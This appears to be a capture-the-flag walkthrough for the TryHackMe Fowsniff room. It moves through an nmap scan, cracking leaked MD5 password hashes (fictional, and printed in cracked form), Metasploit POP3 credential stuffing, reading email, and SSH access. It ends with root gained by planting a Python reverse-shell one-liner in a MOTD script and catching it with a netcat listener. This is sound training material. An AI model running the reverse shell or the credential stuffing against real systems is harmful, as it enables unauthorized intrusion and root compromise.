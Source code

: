 # [Fowsniff CTF](https://tryhackme.com/r/room/ctf)

This CTF provides an attack box and walks you through most of it. Most of the questions don't require answers, but in this walkthrough we'll explain our methodology and solutions to them. 

<details>
<summary> <b>Deploy the machine. On the top right of this you will see a Deploy button. Click on this to deploy the machine into the cloud. Wait a minute for it to become live.</b> </summary>
This is pretty straightforward. We press the Start Machine button, which the image below shows is grayed out once I clicked it.

![image](image.png)  

Cool. We then start our attack box and wait for it to load before proceeding.
</details>
<details>
<summary> <b>Using nmap, scan this machine. What ports are open?</b> </summary>  
We'll do a simple nmap scan. Nmap is powerful, and we can take our time scanning, but this is a simple CTF, so let's not overcomplicate it. The IP is provided to us after about a minute since the CTF machine is launched. Note that your IP may differ from mine.

![image](image-1.png)  

Solution: <b>Ports 22, 80, 110, and 143 are open.</b>
</details>
<details>
<summary> <b>Using the information from the open ports. Look around. What can you find?</b> </summary>  
I assume this is just asking if we see anything interesting about these protocols. SSH is a secure connection protocol. The rest are insecure versions of email (POP and IMAP) and web requests (HTTP). If we attempt to SSH, we can actually get in:  

![image](image-2.png)  
Unfortunately, it's password protected. Darn. Well, HTTP is another option. Opening up a browser and typing `10.10.252.0:80` (port number optional) will pull up the website, with some interesting information:  
![image](image-3.png)
Wowie, a credential leak. So this CTF is telling a story, cool. This may lead us to answering the next question.
</details>
<details>
<summary> <b>Using Google, can you find any public information about them?</b> </summary>  
Google search the corporation, they have a Twitter account (and many write-ups that could make it hard to actually focus on the CTF itself):  

![image](image-4.png)
Access the pastebin link and...

![alt text](image-5.png)
Well...this is not part of the CTF. You're supposed to get the passwords here. This is yet another CTF that attempts to make the user use their OSINT skills, only to fall flat.  
Fortunately, the Twitter account does show 'stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd' in one of its posts, but we need the others. This is extremely frustrating, as it requires you to read a write-up to gather the needed information. Here's the original pastebin in case you need it, and don't want to look any further:  

```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.

Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

</details>
<details>
<summary> <b>Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.</b> </summary>  
Normally, I would use hashcat, but let's try this online website they suggest. It initially looks like you need to create an account, but if you migrate to "Hash Cracker" and select "MD5 Cracker", you can use this for free.  

![alt text](image-6.png)
Throw those bad boys in there with the names removed and you'll get results:

![alt text](image-7.png)
For a nice text format in case you have trouble using an MD5 cracker, here it is:  

```
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972
```

</details>
<details>
<summary> <b>Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?</b> </summary>
In other words, it wants us to use credential stuffing on the POP3 server. Let's do it. You can access Metasploit by navigating to the Tools folder, or by typing 'msfconsole':  

![alt text](image-8.png)

Metasploit is a framework with a lot of built-in exploits. Googling 'metasploit pop3 credential stuffing' pulls up the command to do the attack we want to do. Script Kiddie: 1, Defensive Cyber Operator: 0.  

> msf > use auxiliary/scanner/pop3/pop3_login  

Run 'show options', and you will see we can create a file with usernames and passwords separated by a space to execute. We must also specify the receiving host (RHOST). Normally, RPORT must also be secified, but since this is a POP3 attack, Metasploit has already set this to our desired port 110.  

![alt text](image-9.png)

![alt text](image-10.png)

Enough monkeying around. Let's set the RHOST to 10.10.85.111 (my box's IP changed during this write-up) and USERPASS_FILE to the path of our modified user/pass file. You may also need to remove the USER_FILE and PASS_FILE settings, as it may attempt to check these before your actual list.

```
msf auxiliary(scanner/pop3/pop3_login) > set RHOST {target IP}
msf auxiliary(scanner/pop3/pop3_login) > set USERPASS_FILE ~/Desktop/userfile
msf auxiliary(scanner/pop3/pop3_login) > set USER_FILE ""
msf auxiliary(scanner/pop3/pop3_login) > set PASS_FILE ""
```

![alt text](image-11.png)

Winner winner chicken dinner.
</details>
<details>
<summary> <b>What was seina's password to the email service?</b> </summary>
This is what we obtained in the last question.  

Solution: <b>scoobydoo2</b>
</details>
<details>
<summary> <b>Can you connect to the pop3 service with her credentials? What email information can you gather?</b> </summary>
Why yes, we can use her credentials. We can login using telnet and specifying the POP3 protocol, then entering her username and password. The trick to all this is just knowing POP3 commands.

![alt text](image-12.png)

List the messages, and we see the ID of each one.

![alt text](image-13.png)

Using the `retr <id>` command, we can view these messages. The first one talks about how easy it was to use SQL injection on the site. It also gives a temporary password to use SSH:

![alt text](image-14.png)

This is why we couldn't break that hash from earlier. The second email is less interesting, sent by the user 'Skyler' whose username is 'baksteen'. He appears to not have read the first email sent in mass to everyone to change their SSH passwords. I wonder what we could do with this information...

![alt text](image-15.png)


</details>
<details>
<summary> <b>In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.</b> </summary>

This question is worded weirdly, in the sense that it discourages the attacker to pay attention to the narrative. I interpreted this question thinking since Stone sent the password, we should connect with him, but the correct narrative being told is that Skyler (baksteen) hadn't changed his password yet, so we need to SSH as him.

![alt text](image-16.png)

Welcome back, baksteen.
</details>
<details>
<summary> <b>Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?</b> </summary>

Feel free to look around. Users can be found using `id -nG`.

![alt text](image-17.png)

Welp, that's about the groups we would expect. We can do a search `find / -type f -perm -u=rwx 2>/dev/null` to find files that we can write and execute as a user. The ending here ignores errors. The problem with this question is that there's a buttload of them:

![alt text](image-18.png)

The one they expect you to be interested in is `/opt/cube/cube.sh`. This contains the MOTD banner. It makes sense in hindsight, as when you login, this program will be ran and we can execute a malicious program with it. Unfortunately, most users won't know how to look for that for a beginner CTF. As much hand holding as this CTF does for you, I only knew it was this file in particular because of another write-up that the CTF references.
</details>
<details>
<summary> <b>Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?</b> </summary>

Well, it gives us the python code to execute a reverse shell:
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

So yes, just copy and paste this into the `cube.sh` file.

![alt text](image-19.png)
</details>
<details>
<summary> <b>If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in /etc/update-motd.d/ file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!</b> </summary>

We actually don't need to do anything here. By going to `/etc/update-motd.d/` and then `00-banner`, we see that `sh /opt/cube/cube.sh` is already executing our code.

![alt text](image-20.png)

This also brings to light how we may have known to look at `/opt/cube/cube.sh` from the earlier question. Essentially, we would look to find a privilege escalation vulnerability with the MOTD banner. I would argue this is a bit of a niche vulnerability for a CTF that requires almost no answers and practically gives you commands, so I leave this write-up in the perspective of you, the user, rather than just writing as if I knew perfectly how the CTF creator wanted this exercise to go.
</details>
<details>
<summary> <b>Start a netcat listener (nc -lvp 1234) and then re-login to the SSH service. You will then receive a reverse shell on your netcat session as root!</b> </summary>

Okay.
</details>

<details>
<summary> <b>Start a netcat listener (nc -lvp 1234) and then re-login to the SSH service. You will then receive a reverse shell on your netcat session as root!</b> </summary>

Here's the home run. If we did everything right, we should get a reverse shell from our netcat listener:

Voila. I'll admit, I don't mind this hand holding bit, as it effectively walks you through how to make your own reverse shell.
</details>
<details>
<summary> <b>If you are really really stuck, there is a brilliant walkthrough here: https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

If its easier, follow this walkthrough with the deployed machine on the site.</b> </summary>

This doesn't require anything. We're done. Shoo. Get out of here.
</details>